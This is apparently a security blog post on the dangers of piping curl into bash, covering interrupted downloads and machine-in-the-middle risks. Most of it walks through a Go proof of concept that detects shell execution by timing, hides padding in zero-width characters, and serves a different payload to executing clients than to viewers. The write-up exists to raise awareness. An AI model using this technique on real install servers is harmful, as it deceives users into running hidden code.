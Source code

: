 +++
title = "The Dangers of curl | bash"
date = 2021-01-12T12:23:11Z
tags = ["golang", "curl", "bash", "cybersecurity", "linux"]
+++

I'm sure at some point or another we've all seen a software project that asks
you to installing it with a command like `curl https://install.example.com |
sudo bash`.

<!-- more -->

A few examples are [rustup](https://rustup.rs/),
[zerotier](https://github.com/zerotier/install.zerotier.com), and
[pyenv](https://github.com/pyenv/pyenv-installer).

_But why is it dangerous_ you ask? _Surely if [people on the internet advocate
the use of it](https://gist.github.com/btm/6700524) then it must fine?_ Well, it
depends what your definition of _fine_ is.

There are a few different issues with using `curl $URL | bash` that I want to
look at, two briefly and one in more detail.

From here on out I'll be using:

* `curl | bash` to refer to a command that downloads a file and sends the
  content via stdout to a shell (and example of a command like this being `curl
  https://install.example.com/ | sudo bash`)
* `$URL` to refer to the URL of the resource being being downloaded (in the
  previous example this would be `https://install.example.com/`)

## Possible Issues Scenarios

### 1. Interrupted Connections

When you `curl $URL | bash`, bash starts executing the script before the whole
of it was been downloaded. If you were to lose your connection to the server
before the script has finished downloading you may end up with half the script
having been executed and half of it not. This is a non-ideal situation that
could potentially leave your system in an unusable state (depending on the
script you were running).

### 2. Machine in the Middle (MitM)

A Machine in the Middle attack is when an attacker is in the middle on your
communication. This would allow them to modify the script as it is being
downloaded allowing them to run malicious commands on your machine.

A few ways to mitigate this are by:

1. Using TLS. Curl will throw an error if a website has invalid TLS
   certificates. This means that if the script you are piping into bash uses
   https then you know there isn't a MitM (unless the MitM has an TLS cert for
   the domain in question that is signed by a CA you trust, in which case you
   have a bigger issue). You can run `curl https://self-signed.badssl.com/` as
   an example of how curl handles invalid TLS certificates.
2. Viewing the script in your browser first. If you navigate to `$URL` in your
   web browser first you can inspect the script to make sure that you trust it's
   content. This would be a valid solution, but turns out to not be effective.
   I'll discuss why now.

### 3. curl | bash Detection

It turns out that because of how unix pipelines work, a webserver can detect if
you are piping the output of `curl` or `wget` into an shell like `bash`.

I tweeted a proof of concept for this earlier.

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">been playing with some `curl | bash` detection <a href="https://t.co/DHEl12ysMk">pic.twitter.com/DHEl12ysMk</a></p>&mdash; Luke (@mokytis_) <a href="https://twitter.com/mokytis_/status/1326239169711108099?ref_src=twsrc%5Etfw">November 10, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

This attack is the main focus of this blog post an is inspired by
[https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/](https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/)
which explains part of why this works but does not provide a proof of concept.
This was posted in 2016 and I haven't been able to find much else out this.

As mentioned in section 1, if the content being downloaded is over a certain
size then bash will start executing commands before the whole file has been
download. Curl will fill the buffer, bash will read and execute the commands,
curl will fetch more data from the server and fill the buffer again. This whole
process repeats until the whole script has been downloaded and executed by bash.

If bash is doing something time consuming (e.g. executing a `sleep` command)
then it will take longer before it empties the buffer and curl requests more of
the script. If the script is just being displayed (if you just `curl $URL` or if
you open `$URL` in a web browser) then there will be no delay as the `sleep`
command isn't being executed. We can detect this time difference on the server
the script is being download from.

I am going to quickly walk you through the Proof of Concept (PoC) I made in go.

Firstly I setup a simple go program that acts as an http server. It will listen
on port `:8080` and send requests to a function called `handler` (which I am
going to show you in the next step).

```go
package main

import (
  "fmt"
  "net/http"
  "strings"
  "time"
)

func main() {
  http.HandleFunc("/", handler)
  http.ListenAndServe(":8080", nil)
}
```

The handler function is relativly simple.

Firstly we create a payload that we will use to detect if the code being
download is being executed or just displayed/stored. This example sends a script
that outputs _Hello World!_, sleeps for 1 second and has a comment. This command
is then followed by the byte string `\xe2\x80\x8b` 1048576 times. This byte
string is a zero width character meaning that it won't be visible to the user if
the script is being sent to firefox or stdout unless they open it in something
like a hex editor.

This chars at the end are so long that they will fill the buffer more than once.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte("echo Hello World!\nsleep 1\n# A comment" + strings.Repeat("\xe2\x80\x8b", 1024*1024) + "\n")
}
```
We then define a malicious payload to send if the script is being executed and a
harmless payload to send if it is not.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")
}
```

We can now set the response content type and status code, and send the detection
payload. However we won't end the request but instead start a timer. `res.Write`
is blocking meaning that the next line won't be executed until the whole of the
`detect_payload` has been requested by the client, and as it is longer than the
buffer if the code is being executed then bash will sleep before the rest of the
detect payload is requested. This means that when we measure the time that it
took for `res.Write` to run we can see if bash was executing the payload or not.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")

  res.Header().Set("Content-Type", "text/plain; charset=UTF-8")
  res.WriteHeader(200)
  started_detect := time.Now()
  res.Write(detect_payload)
  ended_detect := time.Now()
  elapsed := ended_detect.Sub(started_detect)
}
```

Now we simply see if we waited around for at least a second (the length of the
sleep) and if we did send the malicious payload.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")

  res.Header().Set("Content-Type", "text/plain; charset=UTF-8")
  res.WriteHeader(200)
  started_detect := time.Now()
  res.Write(detect_payload)
  ended_detect := time.Now()
  elapsed := ended_detect.Sub(started_detect)
  if elapsed.Seconds() > 1 {
    fmt.Println("curl|bash detected. response time: ", elapsed)
    res.Write(malicious_payload)
  } else {
    fmt.Println("non curl|bash. response time: ", elapsed)
    res.Write(harmless_payload)
  }
}
```

This is a very simple PoC but you could easily make something more effective and
discrete. If the user is `curl | bash`-ing a large install script that is
larger than the buffer and has elements that take a while to execute, then you
wouldn't need any `sleep` commands or large amounts of hidden whitespace to make
this work.

## Conclusion

I'm not going to make a comment on if you should use `curl | bash` or not, that
is up to you and your threat model. However I think it is important that people
are aware that this sort of attack is in fact possible.
